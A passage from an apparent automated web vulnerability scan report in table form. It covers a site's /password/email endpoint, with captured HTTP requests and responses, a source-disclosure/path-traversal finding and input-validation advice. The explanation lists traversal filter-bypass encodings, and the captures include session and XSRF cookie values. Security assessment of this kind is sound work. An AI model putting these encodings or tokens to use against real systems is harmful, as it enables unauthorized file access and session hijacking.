XSRF-TOKEN=eyJpdiI6IjhoWjMxdUtaQkhOdStBUk1XNmtENWc9PSIsInZhbHVlIjoiSlFm<br>clpUaUlOT0krSGtKN2tOQ1M0N1ArM3JuVkhaZ3E2cjdtVW9FVXR4Ni9JV1ptNE41QmlMdnQ4ZVZRd215VXNUQ3hqdDZOazF2M<br>VJtd3E1M2dTZVlWWlF1eStETlNmWCtMUmZCU01DdVFjMy9OdDBVa2<br>hoNXMvaE9MKzBpcVkiLCJtYWMiOiJkNzNhZGYzNzA2ZGQ2MWNjOGNiZTNkYzZlOGM3MjkyMz<br>FkMWZmZTM4NjIxZTljZWUzOTgyOGVhYzUxMTI3NjZhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6ImQ0cy9Ic3hLd2VmL3RaK2ttemQzdlE9PSIsInZhbHVlIj<br>oiL1UxNENqc2NPMXlDUnoxL0pPY1IzdXN5R1JBNHp3RGJzRnpwNHdUNHpYM3FGWExjQzJ4YjhvajVldWNx<br>N2UwRlpXWk10alRQVnVnNUVTakw1NnFUcjd6UXlVdGRoUGZ0TFg3bUxoM2h6ZDk<br>yNFhiUGprTmFMTyt0TVpyVUJRcUkiLCJtYWMiOiIwZGM5NzAwYTAzMDUwNGRlYTBlMmIxMjk1NjA1NmM1NzYzZTg2NzI0<br>NTIzNjY3N<br>zc5MTgwYmExODg4ZTVjZWUwIiwidGFnIjoiIn0%3D; \_ga=GA1.2.1965857730.1709530183;<br> \_gid=GA1.2.1685667166.1709530183; \_ga_KD7G4FQ334=GS1.1.1709530457.1.1.1709530836.0.0.0; \_gat_gtag_UA_132022492_1=1<br>Upgrade-Insecure-Requests: 1<br>Sec-Fetch-Dest: document<br>Sec-Fetch-Mode: navigate<br>Sec-Fetch-Site: same-origin<br>Sec-Fetch-User: ?1<br><br><br>Response<br>HTTP/1.1 200<br>Content-Length: 0<br>Connection: close<br><br><br>\                                                                                                                                                                                                                                                                                                                                                                                                                                | Do not accept remote addresses as request parameters, and if you must, ensure that they are validated against an allow-list of expected values.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 6  | Source Code Disclosure - File Inclusion | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | password/email                                                                                                                                                                                                                                                                                                                                                                   | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: password/email<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZhbHVlIjoiNm42TzkwV<br>TRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGEraWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNi<br>TVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1WkRZdUFwU3dyc1IiLCJtYWMiOiJlYm<br>M1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3Tn<br>BkdWRjUndsZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ<br>2dLbm5wS2lhSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW5<br>2N09hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJ<br>tYWMiOiJjZDM2ZTJhZGZiNzA4ZTQ2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                                                     | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:14:16 GMT<br>Location: https://security.unionworx.cloud/password/email<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IjVhdjhzaDZNM2g1eWhGbGY1b2FlcWc9PSIsInZhbHVlIjoiNmlDdWc<br>3UWJxbnAwQS9xUHQrYmIrS0lzdmNBbElmbUc5VDZMVjdMczJBbVNGcWpLUHRsSWFQdmViL2g2aUVzSVVjZ0E2SXdNTV<br>JlZWQzdDZ0ZkcyaDY3b1p5UGpTQjZzeDV0WDNPQnNkWTU0MnhxNStxM0lSK1<br>M2ZWduWkRYM3MiLCJtYWMiOiJkYThlNzdhNDcyM2RjYzZmY2IzNjgxZTkwMDM3N2U<br>wNzA1OTlhNmYyNTljZWRiYzY3YWRiMzhhYjRhYjg0M2M4IiwidGFnIjoiIn0%3D; <br>expires=Thu, 07 Mar 2024 19:14:16 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjQ1SWRySjc0OVhiQ2d4azN5cTREeH<br>c9PSIsInZhbHVlIjoieGM0eVBXUVBBY1lTOXYrc2JMS2VhVmNpdlZFbHVSVnRuU09CU1Jl<br>K1JObFFqUUFydVNMS2ZyMXJ4RU1QZlAxcUVTcm8yQnhGUmQrNTEvc0hSTWdTNGsyelpLQW1rc<br>EFzUnJJU0JvWFlFLzRMUUJjTlV3Y1RVNjR3Y0lpY0RoNWYiLCJtYWMiOiI<br>zYzMyYjQ0MGVjOGQ1M2FkMjZhOTRjNTFjZjE1MjkxYjNlODg1MmVhMTQxODVhNzBhMGJiMWQzNmViOTI1MmFmIiwidGFnIjoiIn0%3D; <br>expires=Thu, 07 Mar 2024 19:14:16 GMT; Max-Age=7200; path=/; httponly; <br>samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 434<br>                 | The Path Traversal attack technique allows an attacker access to files, <br>directories, and commands that potentially reside outside the web document root directory. <br>An attacker may manipulate a URL in such a way that the web site will execute or reveal the contents of arbitrary files anywhere on the web server. Any device that exposes an HTTP-based interface is potentially vulnerable to Path Traversal.<br><br>Most web sites restrict user access to a specific portion of the file-system, <br>typically called the "web document root" or "CGI root" directory.<br> These directories contain the files intended for user access and the executable necessary to drive web application functionality. <br>To access files or execute commands anywhere on the file-system,<br> Path Traversal attacks will utilize the ability of special-characters sequences.<br><br>The most basic Path Traversal attack uses the "../" special-character sequence to alter the resource location requested in the URL. Although most popular web servers will prevent this technique from escaping the web document root, alternate encodings of the "../" sequence may help bypass the security filters. These method variations include valid and invalid Unicode-encoding ("..%u2216" or "..%c0%af") of the forward slash character, backslash characters ("..\\") on Windows-based servers, URL encoded characters "%2e%2e%2f"), <br>and double URL encoding ("..%255c") of the backslash character.<br><br>Even if the web server properly restricts Path Traversal attempts in the URL path, <br>a web application itself may still be vulnerable due to improper handling of user-supplied input. <br>This is a common problem of web applications that use template mechanisms or load static text from files. <br>In variations of the attack, the original URL parameter value is substituted with the file name of one of the web application's dynamic scripts. Consequently, the results can reveal source code because the file is interpreted as text instead of an executable script. <br>These techniques often employ additional special characters such as the dot (".") <br>to reveal the listing of the current working directory, or "%00" NULL characters in order to bypass rudimentary file extension checks. <br>The output for the source code filename [/general] differs sufficiently <br>from that of the random parameter [ygxprtzefhfiixvfnwsxezcaiqfvsxrmrtkhqz], at [14%], compared to a threshold of [75%] | Assume all input is malicious. <br>Use an "accept known good" input validation strategy, i.e., <br>use an allow list of acceptable inputs that strictly conform to specifications. <br>Reject any input that does not strictly conform to specifications, or transform it into something that does. <br>Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list).<br> However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.<br><br>When performing input validation, <br>consider all potentially relevant properties, including length, <br>type of input, the full range of acceptable values, missing or extra inputs, syntax, consistency across related fields, <br>and conformance to business rules. As an example of business rule logic, "boat" may be syntactically valid because it only contains alphanumeric characters, but it is not valid if you are expecting colors such as "red" or "blue."<br> |
